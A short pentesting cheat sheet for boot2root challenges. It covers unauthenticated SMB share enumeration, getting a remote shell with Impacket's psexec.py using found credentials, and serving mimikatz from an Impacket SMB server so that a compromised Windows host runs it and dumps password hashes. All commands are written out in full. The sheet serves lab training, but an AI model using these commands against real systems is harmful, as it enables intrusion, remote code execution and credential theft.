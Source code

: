 #SMB - Enumeration

When completing boot2root challenges, if SMB is open (Port 139 & 445) it is reccomended to see if the user can list SMB shares unauthenticated.

The below commands are different ways in which a user can interact with SMB shares:
- smbmap -H 10.10.10.10
- smbclient -L 10.0.0.10

If it asks for a password, just simple hit enter and that will confirm if authentication is required or if the user can view the shares unauthenticated.
If the user has read/write access to the share, it is then reccomended to connect to the share by running the below command:
smbclient //10.10.10.10/sharename

#SMB - Impacket Psexec

PsExec is a portable tool developed by Microsoft that lets a user run processes remotely using user credentials on the system.

If a user has compromised a user account and has found the password of the account, the user can then psexec into the machine if there is no other ways of entry. (Example: SSH, RDP, WinRM and etc is turned off).

This method requires port 445 to be open, if it is not then the user may have to port forward the port to a listening state.

The command the user should run:
/usr/share/doc/python-impacket/examples/psexec.py hacker@10.10.10.10

The user will be prompted for hacker's password: hacker

An interactive shell should be spawned as the user hacker.

#Impacket's SMBServer (For File Transfer)

Impacket's SMBServer a tool to remotely transfer, capture hashes, use executables and more.

This is how a user can capture hashes on a system once compromiosed. 

On a Linux machine the user should navigate to: 
cd /usr/share/windows-binaries

Identify the mimikatz executable is present then run Impacket's SMBServer:
python /usr/share/doc/python-impacket/examples/smbserver.py a .

On the compromised Windows system run:
\\10.10.10.10\a\mimikatz.exe

Mimikatz should start, now you can catpure hashes using Mimikatz.

- To be continued. 
@sinfulz

